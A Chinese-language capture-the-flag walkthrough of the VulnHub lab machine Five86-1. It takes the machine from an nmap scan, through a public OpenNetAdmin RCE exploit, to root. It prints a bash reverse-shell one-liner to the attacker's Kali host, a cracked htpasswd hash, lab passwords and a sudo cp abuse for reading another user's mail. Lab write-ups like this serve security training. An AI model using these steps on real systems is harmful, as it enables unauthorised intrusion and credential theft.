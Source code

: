 ## Five86-1 : Walkthrough

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.108` |
| Kali          | `192.168.1.105` |
| Five86-1      | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`

![1](../src/vulnhub/five86_1/1.png)

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，根目录存在 **robots.txt** ，访问 */ona* 子目录

![2](../src/vulnhub/five86_1/2.png)

![3](../src/vulnhub/five86_1/3.png)

找到 Web 应用是 **OpenNetAdmin v18.1.1**，进行 OSINT

![4](../src/vulnhub/five86_1/4.png)

看来该 Web 应用存在 **RCE** ，这下 *getshell* 就变得简单了。我使用 GitHub 的 [exploit](https://github.com/amriunix/ona-rce)

![5](../src/vulnhub/five86_1/5.png)

### 提权

与虚拟机建立 bash 连接，以便执行更多程序，执行命令 `bash -c 'bash -i >& /dev/tcp/192.168.1.105/4466 0>&1'`

Kali 监听 **4466** 端口

![6](../src/vulnhub/five86_1/6.png)

并在 Kali 上下载 *LinEnum.sh* 脚本到 `/tmp` 目录下运行

![7](../src/vulnhub/five86_1/7.png)

![8](../src/vulnhub/five86_1/8.png)

对于 `/etc/passwd` 我们没有写权限，因此之前惯用的方法失效了，不过根据 `/var/www/.htpasswd`  提供的信息可以暴力破解 hash 密码。不过在此之前就是制作字典

![9](../src/vulnhub/five86_1/9.png)

将用户名和密码复制粘贴到 *hash.txt* 文件中，使用 `john` 命令工具进行字典爆破

`douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1`

![10](../src/vulnhub/five86_1/10.png)

至此我们得到用户名 *douglas* 的账户密码：`fatherrrrr`

![11](../src/vulnhub/five86_1/11.png)

经过许久的探索，终于找到一条重要信息：*douglas* 用户可以无需密码运行 *jen* 账户的 `/bin/cp` 命令。接下来我尝试复制信息到 `/etc/passwd` 文件失败。嗯~，在这卡了一段时间，后来通过网上找到一种方法：找  *jen* 用户所属的文件

`find / -type f -user jen 2>/dev/null`

我们看到 *jen* 用户有一条 mail 信息（ `/var/mail/jen` ），使用 `/bin/cp` 命令将邮件信息复制出来

> 直接将 `/var/mail/jen` 复制出来不能读，可以通过在 `/tmp` 中新建文本文件，并修改权限后将复制的出来的内容替换进去

![13](../src/vulnhub/five86_1/13.png)

得到 *moss* 用户的密码：`Fire!Fire!`

![14](../src/vulnhub/five86_1/14.png)

在用户目录下，存在一个游戏目录，我们运行它就可以得到 *root* 权限了

![15](../src/vulnhub/five86_1/15.png)

### 总结

在进入 **OpenNetAdmin** 面板后没有第一时间去找 Web 应用程序和版本，而是到处点点，查看功能等选项。甚至切换为 *admin* 用户（我也不知为啥一试 *admin:admin* 就登录了 ）。因此需要将确定运行的应用程序放在首位，根据应用程序和版本上网查询是否存在漏洞，其次才是详细查看程序功能点等，这样会节省一些时间